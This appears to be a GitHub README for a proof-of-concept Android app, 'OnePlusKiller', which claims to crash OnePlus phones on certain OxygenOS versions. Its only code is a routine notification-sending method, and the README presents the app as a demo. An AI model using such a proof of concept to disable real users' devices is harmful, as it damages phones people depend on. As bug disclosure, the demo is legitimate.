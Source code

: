 # OnePlusKiller
This is a simple demo app that show how you can easily destroy the one plus system running android 8.0.0 OxygenOS 5.0.1 or 5.0.4

This lines of code make it happen:

``` java
    private void sendNotification(String title, String content) {
        NotificationManager mNotificationManager = (NotificationManager) getSystemService(Context.NOTIFICATION_SERVICE);
        // Android O requires a Notification Channel.
        if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.O) {
            CharSequence name = getString(R.string.app_name);
            // Create the channel for the notification
            NotificationChannel mChannel = new NotificationChannel(CHANNEL_ID, name, NotificationManager.IMPORTANCE_DEFAULT);
            // Set the Notification Channel for the Notification Manager.
            if (mNotificationManager != null) {
                mNotificationManager.createNotificationChannel(mChannel);
            }
        }
        NotificationCompat.Builder builder = new NotificationCompat.Builder(this, CHANNEL_ID);
        // Define the notification settings.
        builder.setSmallIcon(R.mipmap.ic_launcher)
                .setContentTitle(title)
                .setContentText(content);
        // Dismiss notification once the user touches it.
        builder.setAutoCancel(true);
        // Issue the notification
        if (mNotificationManager != null) {
            mNotificationManager.notify(0, builder.build());
        }
    }
```

![Alt text](/Screenshot_20180320-092504.jpg "Screenshot")


